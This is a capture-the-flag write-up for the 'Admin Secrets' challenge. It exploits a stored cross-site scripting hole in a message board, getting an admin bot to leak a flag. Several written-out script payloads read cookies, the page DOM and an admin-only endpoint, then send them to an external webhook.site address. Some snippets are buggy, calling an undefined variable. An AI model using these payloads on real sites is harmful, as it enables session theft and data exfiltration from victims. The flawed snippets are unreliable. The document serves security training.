


# Admin Secrets
 
> See if you can get the flag from the admin at this website!

## Description

We are given a website. We connect to it, create an account, and then we can post messages.



Once the message is posted, we can see it on a list, and report it to the admin.



As the description suggests, we want to steal the flag from the admin. This looks a lot like a [reflected XSS](https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent_(reflected)), so let's try that.

## Solution

The core idea is to inject script in the form. Then when the post is displayed in the list, the malicious code we inserted will be executed. Then we report it to admin, and when the admin sees our post, it will also execute our malicious code.

However this time the malicious code will be executed with his session, therefore we'll be able to perform actions only the admin can do. One of the most common attack is to grab the admin's authentication cookie and then we can impersonate him.

### Test code injection

First step is to verify that we can inject code in the posts. To this end, we simply enter:

```html
<script>alert("Hello there")</script>
```

Then post it. When we go to the page where the post is displayed, we do get an alert. So we can inject javascript!

### Test XSS

Then we want to check that the admin does execute the code we send to him. To do this, we'll inject a simple code which will send a message to a server we control.

First let's set up an HTTP server. I've used https://webhook.site to create a webhook where I can send data.

Next I create the payload:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
xhr.send(JSON.stringify({
    "a": "Hello there"
}));
</script>
```

This will simply send a message to my webhook. I test it, and I receive a first message when I read my own post, and when I send it to the admin I get the second message. So the admin reads what I'm sending to him!

### Leak relevant data

Then I want to leak relevant data. As I said earlier, I would like to leak his cookie to impersonate him. So let's try it:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
xhr.send(JSON.stringify({
    "a": document.cookie
}));
</script>
```

However, I don't get the cookies (neither from me nor from the admin). After looking it up, it seems that this is because they are [HTTPOnly cookies](https://owasp.org/www-community/HttpOnly), therefore scripts cannot access them. On the admin page I receive a hint though (stored as a regular cookie): `Check the admin console!`.

### Looking at the admin console

On the main webpage, there is a comment saying that at this place there is an admin console (but of course, as I am not an admin, I cannot see it).

Therefore instead of leaking the admin cookies, I will print its page. Let's try it:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
var text = new XMLSerializer().serializeToString(document);
xhr.send(JSON.stringify({
    "a": text
}));
</script>
```

Sadly I can't see the admin panel... After thinking a lot about it I understood why: the script is executed before the page has finished to be loaded, therefore I only receive an incomplete page! So let's try to wait for the page to be loaded:

```html
<script>
window['onload'] = function() {
    var xhr = new XMLHttpRequest();
    var text = new XMLSerializer().serializeToString(document);
    xhr.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

    xhr2.send(JSON.stringify({
        'a': text
    }));
};
</script>
```

Yes now I receive the console:

```html
<body>
    <nav class="navbar navbar-expand-lg navbar-light bg-light">
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
                    <span class="navbar-toggler-icon"></span>
        </button>

        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="/">Home<span class="sr-only">(current)</span></a>
                </li>
            </ul>
        </div>
    </nav>

    <div class="container">
        <div class="row">
            <div class="col-12">
                <h1>Textbin</h1>
            </div>
        </div>

        <div class="row">

            <div class="col-8 textbody">
                <script>
                    window['onload'] = function() {
                        var xhr = new XMLHttpRequest();
                        var text = new XMLSerializer().serializeToString(document);
                        xhr.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

                        xhr2.send(JSON.stringify({
                            'a': text
                        }));
                    };
                    </script>
            </div>
        </div>

        <div class="row">
            <div class="col-8">
                <small>By user <code>b</code></small>
            </div>
        </div>

        <div class="row" style="margin-bottom:10px">
            <div class="col-8">
                <button type="button" class="btn btn-warning" id="report">Report to Admin</button>
            </div>
        </div>

        <div class="row">
            <div class="col-8 admin_console">
                <!-- Only the admin can see this -->

                <button class="btn btn-primary flag-button">Access Flag</button>
                <a href="/button" class="btn btn-primary other-button">Delete User</a>
                <a href="/button" class="btn btn-primary other-button">Delete Post</a>

            </div>
        </div>

        <div id="responseAlert" class="alert alert-info" role="alert" style="display: none;"></div>
    </div>

    <script src="https://code.jquery.com/jquery-3.3.1.min.js" crossorigin="anonymous"></script>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>

    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>

    <script>
        $('#responseAlert').css('display', 'none');
        $('#report').on('click', function(e) {
            $.ajax({
                type: \ "GET",
                url: window.location.pathname + "/report",
                success: function(resp) {
                    $("#responseAlert").text(resp);
                    $("#responseAlert").css("display", "");
                }
            })
        });


        var flag = '';
        f = function(e) {
            $.ajax({
                type: "GET",
                url: "/admin_flag",
                success: function(resp) {
                    flag = resp;
                    $("#responseAlert").text(resp);
                    $("#responseAlert").css("display", "");
                }
            }) return flag;
        };
        $('.flag-button').on('click', f);
    </script>
</body>
```

Here we get some additional buttons, and one of them seems nice: `Access Flag`. Let's try to get the flag.

### Getting the flag

The following code from the listing above is of interest:

```javascript
var flag = '';
f = function(e) {
    $.ajax({
        type: "GET",
        url: "/admin_flag",
        success: function(resp) {
            flag = resp;
            $("#responseAlert").text(resp);
            $("#responseAlert").css("display", "");
        }
    }) return flag;
};
$('.flag-button').on('click', f);
```

So when the flag button is clicked, a query to `/admin_flag` is performed, and it is then displayed in the `#responseAlert` label. 

To simplify, we know the flag is located at the `/admin_flag` endpoint. Of course we cannot access it when we are a regular user. But then we may access it when we are admin. So let's send to the admin the following code:

```html
<script>
window['onload'] = function() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin_flag', false);
    xhr.send();
    var xhr2 = new XMLHttpRequest();
    xhr2.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

    xhr2.send(JSON.stringify({
        'a': xhr.response
    }));
};
</script>
```

It works! Sadly we do not get the flag yet... The anwer we get is: `This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed if any <script> tags or other javascript is present`

### Obfuscating our payload

So now we have a working payload, but there is a blacklist in place. We need to obfuscate our code so we bypass the blacklist. It is really tight actually: it does not accept single or double quotes, backticks, parenthesis, `<script>` tags or `javascript` string. Trying to bypass the filter by changing the case does not work either.

Finally I got this payload working: 

```html

```

Basically, I replaced the `<script>` tag by a `` tag. I used the fact that for `source` and `onerror` parameters we can omit the quotes. And I encoded the javascript payload to unicode so it will be executed by the web page.

Flag: `tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}`